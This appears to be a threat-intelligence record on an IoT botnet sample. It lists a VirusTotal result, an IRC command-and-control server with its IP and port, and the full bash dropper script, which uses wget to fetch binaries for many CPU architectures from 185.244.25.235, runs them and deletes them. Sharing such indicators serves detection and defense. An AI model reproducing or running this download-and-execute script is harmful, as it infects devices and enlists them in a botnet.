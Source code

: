 ### virustotal-report — VirusTotal report
* [Other] datetime: 2018-12-21T07:40:44
* [Payload delivery] link: https://www.virustotal.com/file/49fd1cb22e0325c1f9038160da534fc23672e5509e903a94ce5bcddc893eb2c0/analysis/1545378044/
* [Payload delivery] text: 26/57

### ip-port — An IP address (or domain or hostname) and a port seen as a tuple (or as a triple) in a specific time frame.
* [Network activity] ip-dst: 185.244.25.235
* [Network activity] port: 80

### irc — An IRC object to describe an IRC server and the associated channels.
* [Other] text: AmpAttacks
* [Network activity] ip-dst: 185.244.25.235
* [Other] text: Summit
* [Network activity] port: 6667
* [Other] text: [x86_64|BWQLXKB]
* [Other] text: [MIPS|WGEQAV]
* [Other] text: [ARM4T|PCVREB]

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: #!/bin/bash
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/mips; chmod +x mips; ./mips; rm -rf mips
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/mipsel; chmod +x mipsel; ./mipsel; rm -rf mipsel
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/sh4; chmod +x sh4; ./sh4; rm -rf sh4
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/x86; chmod +x x86; ./x86; rm -rf x86
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/armv7l; chmod +x armv7l; ./armv7l; rm -rf armv7l
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/armv6l; chmod +x armv6l; ./armv6l; rm -rf armv6l
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/i686; chmod +x i686; ./i686; rm -rf i686
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/powerpc; chmod +x powerpc; ./powerpc; rm -rf powerpc
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/i586; chmod +x i586; ./i586; rm -rf i586
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/m68k; chmod +x m68k; ./m68k; rm -rf m68k
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/sparc; chmod +x sparc; ./sparc; rm -rf sparc
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/armv4l; chmod +x armv4l; ./armv4l; rm -rf armv4l
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/armv5l; chmod +x armv5l; ./armv5l; rm -rf armv5l
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25.235/440fp; chmod +x 440fp; ./440fp; rm -rf 440fp
* [Other] text: Bash
* [Payload delivery] filename: sh
* [Other] text: Malicious
